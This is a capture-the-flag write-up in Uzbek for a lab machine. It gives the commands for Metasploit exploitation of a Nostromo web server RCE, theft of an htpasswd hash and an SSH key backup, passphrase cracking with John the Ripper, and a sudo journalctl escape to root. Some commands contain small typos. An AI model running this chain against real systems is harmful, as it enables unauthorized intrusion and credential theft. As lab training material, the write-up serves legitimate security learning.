 **Reconnaissance**  
`nmap -sV 10.129.1.193`  

![image](https://github.com/user-attachments/assets/d4b5a5f1-cc1f-49e9-a43c-cc3fa038a1cf)  

Port 80 ochiq bo‘lgani uchun brauzer orqali 10.129.1.193 IP-manzilini tekshirib chiqamiz, ammo foydali narsani topa olmaymiz.  

![image](https://github.com/user-attachments/assets/e0ffbe0d-c885-42ba-95b9-7b9182b5ea06)  

**Exploitation**  
Zaiflikdan foydalanish uchun Metasploit Framework dan foydalanamiz. Biz `Nostromo <= 1.9.6` versiyasidagi masofadan kod bajarish (RCE) zaifligini ekspluatatsiya qiluvchi modulni topdik. Ushbu muammo nostromo nhttpd ning `http_verify` funksiyasidagi directory traversal tufayli yuzaga keladi, bu esa tajovuzkorga maxsus yaratilgan HTTP so‘rovi orqali masofadan kod bajarishga imkon beradi.  

```
use exploit/multi/http/nostromo_code_exec
set rhosts 10.129.1.193
set lhost 10.10.14.52
exploit
```  
![image](https://github.com/user-attachments/assets/a4b19893-685d-42e9-8ffe-0ec6c7e25445)

Agar siz birinchi bo‘lib zaiflikdan foydalangan bo‘lsangiz, Metasploit’da `1-ID` bilan sessiya ochiladi. Uni meterpreter ga o‘tkazish uchun `sessions -u 1` buyrug‘idan foydalanasiz. Keyin, yangi meterpreter sessiyasiga ulanish uchun `sessions 2` buyrug‘ini kiritasiz.  

```
sessions -u 1
sessions 2
```  

Ushbu buyruqlar yordamida biz meterpreter shell olamiz. Keyin `/var` katalogiga o‘tib, undagi fayllarni tekshiramiz. Bu yerda `nostromo` katalogi mavjud.  
```
cd /var
ls
cd nostromo
ls
```  
![image](https://github.com/user-attachments/assets/5a112b8e-f427-42f0-9f4f-02c7ea3a6df5)   

`.htpasswd` faylini ko‘rib, `David` foydalanuvchisi va uning xeshlangan paroli ni topamiz.
Keyin Davidning `home` katalogiga o‘tib, `protected-file-area` nomli qiziqarli katalogni topamiz. Ushbu katalogda `backup-ssh-identify-files.tgz` arxivi bor. Uni yuklab olamiz.  
```
cd conf
ls
cat .htpasswd
cat nhttpd.conf
```   
![image](https://github.com/user-attachments/assets/35f759a8-b731-4bb0-97df-899e0f2bed94)   

```
cd /home/david/public_www
ls
```

```
cd protected-file-area
ls
download backup-ssh-identify-files.tgz
```

![image](https://github.com/user-attachments/assets/0e9e53aa-190c-4d33-87bd-b8a4108db0da)   

Arxivni ochib, SSH kalit ni topamiz va unga ruxsat beramiz:  
```
tar xzvf backup-ssh-identify-files.tgz
cd home/david/.ssh
ls
chmod 600 id_rsa
```

SSH kalit bilan tizimga ulanishga harakat qilamiz:   
```
ssh -i id_rsa david@10.129.1.193
```
![image](https://github.com/user-attachments/assets/46748755-fd7f-4948-88fb-c66bedcc3c86)  

Parol so‘raydi, shuning uchun ssh2john yordamida kalitni xeshga o‘giramiz va JohnTheRipper bilan xeshni buzamiz:  

```
locate ssh2john
/usr/share/john/ssh2john.py id_rsa > sshhash
```  

```
john --wordlist=/usr/share/wordlists/rockyou.txt sshash
```  

![image](https://github.com/user-attachments/assets/b80e1f45-7ac7-4ddb-a21e-afbaca7653de)   

**Privilege Escalation**   
SSH orqali David foydalanuvchisi sifatida tizimga kiramiz:   
```
ssh -i id_rsa david@10.129.1.193
```   
Foydalanuvchi flagini o‘qiymiz:   
```
cat user.txt
```    
Root imtiyozlarini olish uchun `/bin` katalogiga o‘tib, server-stats.sh skriptini tekshiramiz. Bu skript `journalctl` buyrug‘ini `root` huquqlari bilan bajaradi.   
```
cd bin
ls
cat server-stats.sh
```
![image](https://github.com/user-attachments/assets/7ad8b689-fd62-452e-b39a-1101a87d9a32)   

Men skriptda ko'rsatilgan buyruqni bajaraman.   
```
/usr/bin/sudo /usr/binjournalctl -n5 -unostromo.service
```   
`!/bin/bash` buyrug‘i orqali `root` shell ochamiz va root flagini olamiz:   

```
cd /root
ls
cat root.txt
```

![image](https://github.com/user-attachments/assets/e756f504-f36f-4ab2-bc3a-83c959201e88)
